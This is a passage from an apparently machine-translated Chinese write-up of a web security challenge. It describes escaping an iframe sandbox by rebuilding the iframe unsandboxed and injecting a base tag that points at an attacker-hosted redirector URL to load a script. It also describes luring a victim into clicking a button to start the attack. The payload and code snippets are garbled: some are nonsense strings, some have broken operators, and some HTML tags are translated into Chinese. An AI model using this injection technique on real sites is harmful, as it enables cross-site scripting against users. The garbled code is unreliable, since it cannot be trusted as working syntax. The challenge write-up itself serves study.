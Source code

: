 我们从 iframe 内部转到父文档，选择标签，然后重新创建一个 iframe，但没有沙箱属性，并在其中添加了我们的小脚本。

所以通过 bugpoc 转到 [*模拟端点*](https://bugpoc.com/testers/other/mock) 并保存这个脚本，然后转到 [*灵活重定向器*](https://bugpoc.com/testers/other/redir) 并在那里粘贴链接，并获得要插入到 base 标记中的 url。

不要忘记添加标题

> 访问控制允许来源:*

我们的有效载荷现在终于:

> https://zu2i14sjykqz.redir.bugpoc.ninja/><output id = file integrity>S7 ukmoqthwrlejgnjpzfhm 0 yhrdeczffe 0 zjasrro 0 u =</output>

我们的 payload^

# 5.自动输入该有效载荷

但是说服受害者在他的网页上输入这个有点过分了。

如果你只是去检查元素，你会看到我们的有效载荷 iframe 的 url。

将链接复制并粘贴到新选项卡中。

**它不起作用，因为页面需要加载到 iframe 中。**

让我们最后一次看代码:

> //验证我们是否在 iframe
> if(window . name = = ' iframe '){

所以让我们最后一次为[做一些脚本:](https://www.youtube.com/watch?v=BPgEgaPk62M)

> <正文>
> 
> 点击按钮开始攻击